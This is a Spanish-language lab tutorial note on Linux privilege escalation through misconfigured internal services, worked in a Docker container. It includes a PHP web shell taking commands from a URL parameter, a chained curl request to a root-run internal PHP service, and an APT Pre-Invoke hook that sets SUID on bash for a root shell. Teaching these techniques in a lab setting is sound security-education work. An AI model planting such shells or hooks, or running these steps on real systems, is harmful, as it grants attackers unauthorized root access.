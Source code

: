 -----
- Tags: #escalation #privilege 
-----
# Explicación

> Los **servicios internos** son componentes esenciales que operan en segundo plano dentro de un sistema operativo, encargándose de funciones críticas como la gestión de red, impresión, actualización de software y monitoreo del sistema, entre otros.

No obstante, si estos servicios **no están configurados adecuadamente** y se encuentran activos, pueden representar una brecha de seguridad significativa. Los atacantes podrían explotar estos servicios para obtener acceso no autorizado al sistema y llevar a cabo actividades malintencionadas.

Un ejemplo concreto sería un servicio de red mal configurado con permisos elevados. Si un atacante logra identificarlo y hallar una forma de aprovecharlo, podría utilizarlo para escalar privilegios y obtener acceso de administrador.

-----
# Ejemplos

Crearemos un contenedor de manera sencilla y rápida con los siguientes comandos

- ``docker pull ubuntu:latest``
- ``docker start --rm -dit -p80:80 --name ubuntuServer ubuntu``
- ``docker exec -it ubuntuServer bash``

Dentro del contenedor hacemos lo siguiente

- ``apt update``
- ``apt install apache2 php nano``
- ``service apache2 start``

## Ejemplo 1

En la ruta ``/var/www/html`` borraremos el **index.php** y crearemos un **cmd.php** para este ejemplo en el que podamos mediante un parámetro en la URL **ejecutar comandos**.

```php
<?php
	system($_GET['cmd'])
?>
```

![[AS 1.png]]

Lo normal es que **seamos un usuario no privilegiado** a la hora de ejecutar el comando, en este caso ``whoami``.

---------

Si nosotros realizamos un ``netstat -nat`` en la URL **no obtendremos información**, pero si convertimos el STDERR en STDOUT tal que ``netstat -nat 2>%261`` podremos, recordemos que ``%26`` es el símbolo ``&`` **URLencode**.

![[AS 2.png]]

Esto significa que no está instalada la herramienta ``netstat`` en el contenedor por lo tanto **la instalaremos** con ``apt install net-tools``. Una vez hecho lo anterior si vamos a la web y refrescamos veremos esto.

![[AS 3.png]]

Ahora vamos a la terminal en donde tenemos nuestro contenedor ejecutado y en el directorio ``/tmp/`` haremos un ``cp /var/www/html/cmd.php .`` para traernos el ``cmd.php`` al directorio actual ``/tmp/``. A continuación **montaremos un servidor** con php ``php -S 127.0.0.1:8000``, de esta forma al ejecutar el ``netstat -nat`` en la URL **podremos ver este servicio que corre internamente**, ya que si con ``nmap`` intentamos escanear el puerto *8000 (En donde se aloja el servicio)* nos dirá que está **cerrado** o **filtered**.

![[AS 4.png]]

También podríamos verlo con ``ps -faux``

![[AS 5.png]]

Imaginemos que esta web es de **la víctima**, si el servidor web tuviera instalado ``curl`` (Que en nuestro caso lo instalaremos en el contenedor para el ejemplo ``apt install curl`` podríamos hacer esto **en la URL** tal que así.

- ``http://localhost/cmd.php?cmd=curl localhost:8000/cmd.php?cmd=whoami``

Nosotros hacemos un ``curl`` como el usuario **www-data**, pero al realizarle una petición al servicio web montado por el usuario **root** por el *puerto 8000*, podemos aprovecharnos del **cmd.php** que hay para ejecutar comandos por su contenido no sanitizado, por lo tanto el comando ``whoami`` sería ejecutado como **root**. 

Es decir que:

- El primer uso del ``cmd.php?cmd=`` es del **cmd.php** que se encuentra en ``/var/www/html`` correspondiente al servicio web del usuario **www-data**
- El segundo uso del ``cmd.php?cmd`` es del **cmd.php** que se encuentra en el directorio ``/tmp/`` correspondiente al servicio web que montamos temporalmente con **php**, este fue ejecutado como usuario **root**.

==Recordemos que siempre ejecutaremos comandos en el servicio como el usuario que corre el servicio como tal==, por lo tanto pasamos de ejecutar el ``curl`` como **www-data** a ejecutar un ``whoami`` como **root**, porque abusamos de los servicios internos del sistema.

![[AS 6.png]]

Nosotros podríamos obtener el acceso al sistema desde un principio pero lo obtendríamos como el usuario **www-data** (No privilegiado), de esta forma lo podríamos conseguir como usuario **privilegiado (root)**

--------
## Ejemplo 2

Vamos a dirigirnos al directorio ``/etc/systemd/system/`` y ahí trataremos de **crear un servicio** que vamos a configurar de nuestro lado para que cada *30 segundos* ejecute un ``apt update``, similar a una tarea cron pero en este caso como **servicio**.

- ``nvim apt-update.service``

```
[Unit]
Description=Update package list

[Service]
Type=oneshot
ExecStart=/usr/bin/apt update
```

Ahora crearemos otro archivo que se encargará de **definir el tiempo de ejecución** del ``apt-update.service``, esto lo haremos tal que así

- ``nvim apt-update.timer``

```
[Unit]
Description=Update package list every 30 seconds

[Timer]
OnUnitActiveSec=30s
Unit=apt-update.service

[Install]
WantedBy=timers.target
```

Una vez tenemos estos dos archivos podemos **desplegarlos** con ``systemctl daemon-reload`` y luego haremos esto. 

- ``systemctl enable apt-update.timer``
- ``systemctl start apt-update.timer``
- ``systemctl enable apt-update.service``
- ``systemctl start apt-update.service``

Con esto ya **cada 30 segundos** se ejecutará el ``apt update`` en el sistema.

-----

Si nosotros estuviéramos como **un usuario no privilegiado**, en mi caso **c4sp** y hiciéramos un ``systemctl list-timers`` veríamos el ``apt-update.timer``.

Podemos ejecutar la herramienta ``pspy`` que en mi caso la tengo en el directorio ``/opt`` y ahí una vez se ejecute el ``apt update`` lo veríamos. 
Podemos ayudarnos de ``watch -n 1 systemctl list-timers`` para ver en tiempo real cuanto falta en ejecutar el servicio.

![[AS 7.png]]

Imaginemos que el directorio ``/etc/apt/apt.conf.d/`` **posee permisos de escritura** para *otros/others*, y que nosotros como atacantes estamos realizando un reconocimiento activo cuando encontramos con el comando ``systemctl list-timers`` que hay una tarea que ejecuta un ``apt update`` cada *30 segundos*, lo que podemos hacer es hacer uso de ``find / --name apt-update.service 2>/dev/null`` para ver donde se encuentra.

![[AS 8.png]]

De esta forma nosotros podríamos **ver el contenido del archivo** y confirmaríamos que es un ``apt update`` que se está ejecutando.

Tenemos que tener en cuenta que cuando se aplica una **actualización del sistema**, en caso de que nosotros tengamos **capacidad de escritura** en ciertas rutas como lo es ``/etc/apt/apt.conf.d/`` por ejemplo, podríamos definir ciertas políticas para indicar que tarea o que comando queremos que se ejecute **previo** a la actualización del sistema o al **final**, esto lo define un **PRE-INVOKE** y un **POST-INVOKE**, esto nos serviría para escalar privilegios en el sistema.

Crearemos un archivo en ``/etc/apt/apt.conf.d/`` llamado **01privesc**.

Si buscamos en **Google** ``apt update pre-invoke`` encontraremos este [recurso](https://www.cyberciti.biz/faq/debian-ubuntu-linux-hook-a-script-command-to-apt-get-upgrade-command/)

![[AS 9.png]]

Nosotros lo **modificaremos** tal que así ``APT::Update::Pre-Invoke {"chmod u+s /bin/bash"; };`` y lo meteremos en el archivo **01privesc**, de esta manera el servicio antes de ejecutar el ``apt update``, le dará permisos **SUID** a la **bash**, por lo tanto podremos hacer uso de ``bash -p`` para volvernos **root**.